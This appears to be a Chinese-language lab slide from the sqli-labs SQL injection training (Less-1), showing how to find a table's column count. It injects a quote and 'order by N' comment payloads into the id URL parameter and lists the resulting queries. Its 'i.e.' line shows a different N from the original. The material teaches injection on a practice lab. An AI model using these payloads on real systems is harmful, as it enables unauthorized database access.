

# 问题： 数据库的表，表中都有几个字段？
构造：	http://localhost/sqli-labs/Less-1/?id=1' order by 3 %23
	即	http://localhost/sqli-labs/Less-1/?id=1%27%20order%20by%204%20%23
	SELECT * FROM `users` WHERE id='1' order by 1
	SELECT * FROM `users` WHERE id='1' order by 2
	SELECT * FROM `users` WHERE id='1' order by 3
	SELECT * FROM `users` WHERE id='1' order by 4
	…………